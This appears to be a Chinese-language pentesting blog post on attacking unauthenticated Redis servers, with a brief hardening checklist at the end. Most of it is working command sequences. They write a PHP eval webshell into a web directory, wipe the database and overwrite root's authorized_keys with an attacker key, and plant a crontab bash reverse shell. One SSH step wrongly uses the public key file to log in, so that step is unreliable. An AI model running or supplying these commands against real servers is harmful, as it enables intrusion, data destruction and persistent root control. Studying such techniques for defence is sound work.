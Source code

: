 ```yaml
---
layout: post
title: Redis安全总结
tags: [penetration]
categories: categories
---
```


1. 未授权访问
2. 获取webshell
3. 获取root
4. 通过redis提权
5. 其他的一些利用
6. redis安全配置




```
测试环境 CentOS 6.5 x64
```

**未授权访问**

默认安装redis，其中启动权限就为root。并且是任意ip可以未授权访问。

![2276273468](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2276273468.jpg)

![91190645](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-91190645.jpg)


* * *

**获取webshell**

条件：知道web绝对路径，redis运行的用户需要对web目录要有写的权限

http://10.211.55.10/phpinfo.php

然后通过客户端链接

redis-cli -h 10.211.55.10

```
config set dir /var/www/html/

set shell <?php eval($_REQUEST[\'syclover\'])?>

config set dbfilename syclover.php

save

exit
```
存在的问题,如果redis里面的数据量特别大并且前面存在<?php 之类的符号

先通过randomkey来查看键值之间的规律，然后可以将数据库备份下来，找到包含<?php 的键名，通过 keys \*str\*找到真正的键名，然后去修改这个键名。因为数据量很大所以备份的shell也很大，然后在生成shell的时候，可以设置不超时，并且在生成完成之后就退出。

* * *

**获取root**

```
victim server CentOS6.6+redis2.4  192.168.192.133

attack server CentOS6.6  192.168.192.132

```

先在attack server生成一个公钥

```
 ssh-keygen -t rsa -C "redis"
(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > redis.txt
```
然后执行

```
redis-cli -h 192.168.192.133 flushall

cat redis.txt | redis-cli -h 192.168.192.133 -x set pwn

```
登录redis  redis-cli -h 192.168.192.133

```
CONFIG set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
exit
```
然后就可以使用ssh的私钥登录了

```
ssh -i redis.pub root@192.168.192.133
```
![2436203329](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2436203329.png)



缺点：flushall 太暴力直接清空数据库，覆盖authorized_keys，导致原有的认证失效。

**通过redis提权**

获取了一个webshell，但是权限很低，发现存在redis服务但是只能本地访问。然后通过上面的方法可以成功提权


* * *

**其他玩法**

redis+crontab

```
redis-cli config set dir /var/spool/cron/

redis-cli config set dbfilename root

echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/8443 0>&1 \n\n"|redis-cli -x set 1

redis-cli save

nc -lvv 8443
```

* * *


**redis安全配置**

1. 设置只对本机开放  bind 127.0.0.1
2. 设置密码         requirepass tomato
3. 修改默认端口      12345
4. 低权限启动
5. 如果需要对外提供服务的话，设置iptables规则


**参考**

[http://antirez.com/news/96](http://antirez.com/news/96)

[http://zone.wooyun.org/content/23858](http://zone.wooyun.org/content/23858)

